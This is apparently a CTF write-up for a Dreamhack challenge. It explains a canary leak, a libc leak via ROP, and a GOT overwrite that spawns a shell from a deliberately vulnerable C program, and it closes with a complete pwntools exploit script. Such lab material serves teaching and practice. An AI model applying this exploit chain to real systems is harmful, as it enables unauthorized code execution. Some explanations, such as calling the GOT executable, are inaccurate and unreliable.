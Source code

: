 ```yaml
---
title: "ROP-1"
published: true
---
```


# GOT overwrite

In ASLR & NX enabled environments, the process of gaining a shell requires the following steps:
0. Leak the stack canary
1. Leak a `libc` offset address(e.g. `read@libc`)
2. Calculate the base address of `libc` and locate `system`
3. Find the address of the  `/bin/sh` string
4. Overwrite a GOT entry with the address of `system`
5. Call the overwritten function to spawn a shell

One effective method for overwritting the return address is **GOT overwrite**. For instance, if we overwrite `printf@got` with `system@got`, then simply calling `printf` results in `system` being executed - potentially with a `/bin/sh` string as an argument.

Let's walk through this type of attack using the following challenge:
[Dreamhack](https://dreamhack.io/wargame/challenges/354)
## Source code

```c
// Name: rop.c
// Compile: gcc -o rop rop.c -fno-PIE -no-pie

#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Leak canary
  puts("[1] Leak Canary");
  write(1, "Buf: ", 5);
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Do ROP
  puts("[2] Input ROP payload");
  write(1, "Buf: ", 5);
  read(0, buf, 0x100);

  return 0;
}
```

Above code has a clear vulnerability which is related to **the mismatch between the size of buffer and the read call**. The first read function accepts a size of `0x100` but actual size of the buffer is `0x30`, enabling a stack buffer overflow.

## 0. Leak canary

![](https://i.imgur.com/KDfituf.png)

From the disassembly:
- `main<+17>` line tells us that canary value is located at `[rbp-0x8]`
- `main<+113>` tells us `&buf` is located at `[rbp-0x40]`.

So we can build a payload to leak canary like this:

```python
buf = b"A" * 0x39
payload = buf
```

Then read the canary as:

```python
p.recvuntil(buf)
cnry = u64(b"\x00" + p.recvn(7)) # LSB is null-byte
```

## 1. Leak a  `libc` offset
The next step is to get `libc` offset. The ultimate goal is to get `system@plt`, but it isn't added to plt. However `puts`, `write`, `read` and puts are.

![](https://i.imgur.com/1DwaOOS.png)
Given `libc.so.6` file, we can get the distance between `read/write/printf/puts@got` and `system@got`.

We can leak the address of `read@got` using `write(1, read@got, ...)` via ROP chain!

```python
read_got = e.got['read']
write_plt = e.plt['write']
...
payload = b"A" * 0x38 + p64(cnry) + b"B" * 0x8
payload += pop_rdi # gadget
payload += p64(1) # rdi
payload += pop_rsi_r15 # gadget
payload += p64(read_got) # rsi
payload += p64(0) # r15, junk value
payload += p64(write_plt) # RET

read_addr = p.recvn(6) + b"\x00" * 2 # Get read_got address
# Top 2 MSBs are null-byte
```

> **Q: Why we do not care `rdx` ?**
> The disassembly shows it's already set to 0x100, so we don't need to supply it manually.
>
![](https://i.imgur.com/NTarmem.png)



## 2. Calculate `system` address

```python
libc_base = read_addr - libc.symbols['read']
system_got = libc_base + libc.symbols['system']
```

## 3. Get `/bin/sh` string
How can we get `/bin/sh` as a argument of `system` function? At a glance, I thought that I could inject `/bin/sh` directly to program stack. (That is, `0x68732f6e69622f`.) **But function arguments are passed as pointers**, and strings like `/bin/sh` reside in .data or .rodata, not on the stack, so what is saved in stack is an address to string, not string itself.

But in GOT overwrite, we can save `/bin/sh` in GOT, which is executable area.
## 4. GOT overwrite
We now overwrite `read@got` with `system`

```python
# read(0, read_got, ...)
payload += pop_rdi # gadget
payload += p64(0) # rdi
payload += pop_rsi_r15 # gadget
payload += p64(read_got) # rsi
payload += p64(0) # r15, junk value
payload += p64(read_plt) # RET

# GOT overwrite
p.send(p64(system_got) + b"/bin/sh\x00")
```

## 5. Execute `system("/bin/sh")`

We use `read@got + 0x8` to point to the `/bin/sh` string that we just wrote.

```python
payload += pop_rdi # gadget
payload += p64(read_got + 0x8)
payload += p64(read_plt)
```

But without the alignment gadget, this might crash with a SIGSEGV.
![](https://i.imgur.com/MgUiAaM.png)

It would be caused by 16-byte alignment, so we should add a `ret` gadget.
![](https://i.imgur.com/KQOVW3H.png)

```python
payload += pop_rdi # gadget
payload += p64(read_got + 0x8)
payload += p64(ret)
payload += p64(read_plt)
```
## Final Exploit Code
```python
  0 from pwn import *
  1 import sys
  2
  3 context(arch='amd64', os='linux')
  4
  5 #p = remote("host8.dreamhack.games", 11679)
  6 p = process('./rop')
  8 def slog(name, addr): return success(': '.join([name, hex(addr)]))
  9 # [1] Leak Canary
 10 e = ELF('./rop')
 11 buf = b"A" * 0x39
 12 p.sendafter(b"[1] Leak Canary\nBuf: ", buf)
 13 p.recvuntil(buf)
 14 cnry = b"\x00" + p.recvn(7) # stack canary
 15 cnry = u64(cnry)
 16 slog('canary', cnry)
 17
 18 # [2] Exploit
 19
 20 libc = ELF("./libc.so.6")
 21 read_plt = e.plt['read']
 22 read_got = e.got['read']
 23 write_plt = e.plt['write']
 24 pop_rdi = 0x400853
 25 pop_rsi_r15 = 0x400851
 26 ret = 0x400596
 27
 28
 29 payload = b"A" * 0x38 + p64(cnry) + b"B" * 0x8
 30
 31 # write(1, read_got, ...)
 32 payload += p64(pop_rdi) + p64(1)
 33 payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)
 34 payload += p64(write_plt)
 35
 36 # read(0, read_got, ...)
 37 payload += p64(pop_rdi) + p64(0)
 38 payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)
 39 payload += p64(read_plt)
 40
 41 # Execute system("/bin/sh")
 42 payload += p64(pop_rdi) + p64(read_got + 0x8)
 43 payload += p64(ret)
 44 payload += p64(read_plt)
 45
 46 # GOT overwrite
 47 p.sendafter(b"Buf: ", payload)
 48
 49 # Calculate offset
 50 #read_addr = u64(p.recvn(6) + b"\x00" * 2)
 51 read_addr= u64(p.recvn(8))
 52 libc_base = read_addr - libc.symbols['read']
 53 system_addr = libc_base + libc.symbols['system']
 54
 55 slog('read', read_addr)
 56 slog('libc_base', libc_base)
 57 slog('system', system_addr)
 58
 59
 60 p.send(p64(system_addr) + b"/bin/sh\x00")
 61 p.interactive()
```
